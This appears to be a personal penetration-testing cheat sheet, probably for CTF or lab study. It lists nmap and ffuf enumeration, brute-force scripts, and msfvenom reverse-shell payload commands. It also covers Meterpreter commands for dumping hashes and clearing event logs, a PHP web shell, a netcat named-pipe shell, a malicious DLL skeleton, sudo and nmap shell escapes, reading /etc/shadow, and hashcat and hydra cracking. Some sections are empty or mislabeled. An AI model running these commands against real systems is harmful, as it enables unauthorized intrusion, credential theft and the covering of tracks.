 ```yaml
---
date: '2022-01-26'
title: Resources and Tools
root: '/contents'
parents: ["Resources and Tools"]
---
```


# Enumeration
## NMAP
```
SSH:
nmap -n -p22 --script ssh-brute \
```
```
HTTP:
nmap --script http-enum targetIP \
nmap -n -p 80 --script -http-grep \
```
```
SMB:
nmap -p 445 --script-os-discovery targetIP
nmap -sV -p 445 --script smb-brute targetIP
nmap -n -p139,445 --script=smb-enum-users --script-args=smbusername="",\
```
## Gobuster
```
gobuster dir --url {{https://example.com/}} --wordlist {{path/to/file}}
gobuster dns --domain {{example.com}} --wordlist {{path/to/file}}
```
## Ffuf
```
ffuf -w {{path/to/wordlist}} -u {{https://target/FUZZ}} -c -v
ffuf -w {{hosts.txt}} -u {{https://example.org}} -H "{{Host: FUZZ}}" -mc {{200}}
ffuf -w {{subdomains.txt}} -u {{https://website.com}} -H "{{Host: FUZZ.website.com}}"
```

## Searching files
```
`findstr /si password *.txt`
```

## Patch Level
```
`wmic qfe get Caption,Description,HotFixID,InstalledOn`
```

## Scheduled Tasks
```
`schtasks /query /fo LIST /v`
```

## Windows Services and Software
```
wmic service list brief| findstr "Running"
sc qc
wmic product get name,version,vendor
```

## Base64
```
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
# Exploitation
## Metasploit
```
MSFVENOM:
msfvenom -l
msfvenom -p {{payload}} --list-options
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=xxxx -f elf > rev_shell.elf
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe > {{path/to/binary.exe}}
Staged vs Stageless:
windows/x64/meterpreter/reverse_tcp vs. windows/x86/meterpreter_reverse_tcp

```

```
Meterpreter commands:
upload
getuid
PS
migrate
getsystem
hashdump
shell
search
clearev
sysinfo
```
```
CMD commands:
dir
type
```

## Python
```

```

```
stty raw -echo; fg
```
## netcat
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```

```
```

```

## Skeleton DLL Code
```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt"); # edit this line
        ExitProcess(0);
    }
    return TRUE;
}
```

## PHP
```
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
**ex**: /shell.php?cmd=
webshells dir: */usr/share/webshells*
```

## Creating Named Pipes
```
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
```

## SUDO
```
find . -exec /bin/bash \; -quit
```

## SUID
```
`find / -type f -perm -04000 -ls 2>/dev/null'
```

## NMAP
```
1. TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF

2. sudo nmap --interactive
 nmap> !sh
```

## Unquoted Service Path
```
sc qc unquotedsvc
```

## AlwaysInstallElevated
```
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`  
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
```


# Password cracking

```
HASHCAT:
hashcat --hash-type {{hash_type_id}} --attack-mode {{3}} {{hash_value}}
hashcat --hash-type {{hash_type_id}} --attack-mode {{1}} {{hash_value}} {{/path/to/dictionary1.txt}} {{/path/to/dictionary2.txt}}
hashcat --hash-type {{hash_type_id}} --attack-mode {{0}} {{hash_value}} {{/usr/share/wordlists/rockyou.txt}}
hashcat --hash-type {{hash_type_id}} --attack-mode {{3}} --increment {{hash_value}} "{{?a?a?a?a?a?a?a?a}}"
hashcat --show {{hash_value}}
```
```
Hydra:
hydra -l {{username}} -P {{path/to/wordlist.txt}} {{host_ip}} {{ssh}}
hydra -L {{path/to/usernames.txt}} -P {{path/to/wordlist.txt}} -t {{n_tasks}} {{host_ip}} {{ftp}}

```

## Extras






